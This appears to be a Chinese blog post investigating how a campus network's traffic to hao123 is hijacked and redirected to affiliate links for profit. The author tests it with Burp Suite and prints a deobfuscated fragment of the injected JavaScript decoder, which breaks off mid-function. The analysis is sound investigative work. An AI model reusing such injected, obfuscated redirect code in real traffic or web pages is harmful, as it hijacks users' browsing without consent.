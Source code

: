 

## 片头

前几个星期，在贴吧看到了有校园网用户反应 hao123 无法打开，目测存在循环重定向的问题：[校园网他妈的是被劫持了吗？？打开 hao123 无限跳转](http://tieba.baidu.com/p/4139149654)

在文章最前面，讲一下本文的测试环境：

位置：校园网宿舍（电信出口）

系统：Archlinux

## 初步测试

经过了本人的测试，挟持问题存在，但循环重定向导致不能打开的问题难以复现。

当用户直接打开 `http://www.hao123.com/` 的时候，根据浏览器的不同，**正常情况下**，普通浏览器来说是会跳转到 `https://www.hao123.com/` 的，少数部分浏览器是会直接返回 `HTTP/1.1 200 OK` 直接返回网页，不过这也是正常的。

经过多次测试，在挟持的情况下，最终用户会被跳转到两个不同的推广地址。经过网上的搜索核实， `?tn=????????_hao_pg` 为 hao123 的推广地址，也就是说，你的每一次访问，某些人都会从中获利。

挟持的推广地址如下：

    http://www.hao123.com/?tn=90049484_hao_pg
    http://www.hao123.com/?tn=99945998_hao_pg

## 深入研究

### burpsuite 暴力测试

通过 burpsuite 连续发 100 个 HTTP 包，我发现挟持是随机的。

有时候连续几个包都是正常包，有时候连续几个包都是挟持包，甚至有时候只有一个正常包，然后上下有 N 个挟持包。（反正我没发现规律

在多次测试之下，我发现在不同的情况下，总共会有三个不同的挟持包。

为了给大家一个直观的感觉，我将这三个挟持包都上传到了我的网站。其中，第二个我访问的地址是 `/?tn=0`

    https://paste.ubuntu.com/p/dBjX9qt24D/
    https://paste.ubuntu.com/p/bMCQdtkRfS/
    https://paste.ubuntu.com/p/BnXy37J3P8/

三个挟持包，第 1 和第 2 个基本上是相同的，唯一的区别在于第二个还设置了 Cookies 。我姑且将前面两个包归为一类，两种挟持包的制作不一，可以看到应该是出自不同人之手。

前者的代码经过混淆，不过很容易被网上的工具所解密。解密之后的代码如下：

```javascript
(function(r, o, k, v) {
  r.onerror = function() {
    return !0;
  };
  var i = 0,
    da = o.getElementById("d"),
    db = da.scrollWidth,
    dt = parseInt(db / 200),
    de = function(n) {
      var c = n.charAt(0) * 1;
      if (isNaN(c)) return "";
      c = n.substr(1, c) * 1;
      if (isNaN(c)) return "";
      var l = n.length,
        t = [],
        a,
        f,
        b,
        e = String(c).length + 1,
        m = function(d) {
          return k.indexOf(n.charAt(d));
```